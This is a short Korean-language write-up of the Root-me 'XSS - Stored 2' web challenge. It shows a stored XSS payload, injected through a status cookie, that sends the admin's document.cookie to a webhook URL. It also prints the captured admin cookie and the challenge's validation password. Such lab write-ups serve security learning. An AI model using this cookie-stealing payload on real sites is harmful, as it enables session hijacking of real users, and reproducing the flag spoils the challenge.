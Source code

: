 ```yaml
---
title : "XSS - Stored 2"
excerpt : "Root-me.org Web-Client XSS - Stored 2"
toc: true
toc_sticky: true
categories :
  - Web-Client
tags :
  - XSS
---
```


# XSS - Stored 2
```
Author
g0uZ,  4 March 2012

Statement
Steal the administrator session’s cookie and go in the admin section.
```
Stored1 과 동일하게 진행. 하지만 javascript를 htmlentities 함수를 이용한 것인지 실행시키지 못하도록 해놓았음.  
그래서 title, section 쿼리, cookie 등 다 시도해본 결과 쿠키 쪽에서 가능했음.  
message를 보내면 status를 표시해주는데 status 쿠키 값을 다음과 같이 변경.  
```
Status : <i class="invite">invite</i> 이고 자바스크립트를 실행시키려면 "으로 닫아 줘야 됨. 따라서 아래와 같이 변경해줘야 함.

"><script>location.href="webhook_url?cookie="%2B document.cookie</script>
```
한 5분 후에 확인해보면 이렇게 나옴.  
```
webhook_url?cookie=status%3Dinvite%3B%20ADMIN_COOKIE%3DSY2USDIH78TF3DFU78546TE7F

status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```
따라서 문제로 돌아가서 쿠키 값을 설정시켜주고 admin 섹션으로 가면 flag를 얻을 수 있음.  
```
You can validate challenge with this pass : E5HKEGyCXQVsYaehaqeJs0AfV
```


